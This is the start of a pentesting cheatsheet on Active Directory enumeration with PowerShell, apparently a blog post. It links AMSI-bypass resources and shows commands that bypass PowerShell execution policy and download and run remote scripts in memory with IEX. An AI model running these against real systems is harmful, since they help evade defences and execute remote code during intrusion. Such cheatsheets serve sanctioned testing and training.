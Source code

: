```yaml
---
layout: post
title: TA0007 Discovery - AD Enumeration with Powershell
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2021-11-17
permalink: /:categories/:title/
---
```



* [AV Evasion 101 by S3cur3Th1sSh1t](#AVEvasion101byS3cur3Th1sSh1t)
* [PRE-REQUISITE: Installing PowerView](#PRE-REQUISITE:InstallingPowerView)
* [PRE-REQUISITE: AD Web Services on the DC](#PRE-REQUISITE:ADWebServicesontheDC)
* [ENUM: DOMAIN ADMIN](#ENUM:DOMAINADMIN)
* [ENUM: PRIVILEGED USERS](#ENUM:PRIVILEGEDUSERS)
* [ENUM: DOMAIN](#ENUM:DOMAIN)
* [ENUM: DOMAIN PERSISTENCY](#ENUM:DOMAINPERSISTENCY)
* [ENUM: FOREST PRIVESC](#ENUM:FORESTPRIVESC)
* [ENUM: SERVICES LOOTS](#ENUM:SERVICESLOOTS)
* [ENUM: Kerberoasting](#ENUM:Kerberoasting)
* [MISC](#MISC)




## <a name='AVEvasion101byS3cur3Th1sSh1t'></a>AV Evasion 101 by S3cur3Th1sSh1t

<iframe width="727" height="409" src="https://www.youtube.com/embed/_sPM9Er_194" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


## <a name='PRE-REQUISITE:InstallingPowerView'></a>PRE-REQUISITE: Installing PowerView

- [PowerView CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf)
# Bypass AMSI 
- [amsi.fails]('https://amsi.fails')
- [S3cur3Th1sSh1t]('https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell')
- [notes.offsec-journey.com]('https://notes.offsec-journey.com/evasion/amsi-bypass')

```powershell
# Bypass powershell execution protection
powershell -ep bypass


# ActiveDirectory Module v1
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# ActiveDirectory Module v2
$webreq = [System.Net.WebRequest]::Create(‘https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1')
$resp=$webreq.GetResponse()
$respstream=$resp.GetResponseStream()
$reader=[System.IO.StreamReader]::new($respstream)
$content=$reader.ReadToEnd()
IEX($content)

# PowerView Module
```
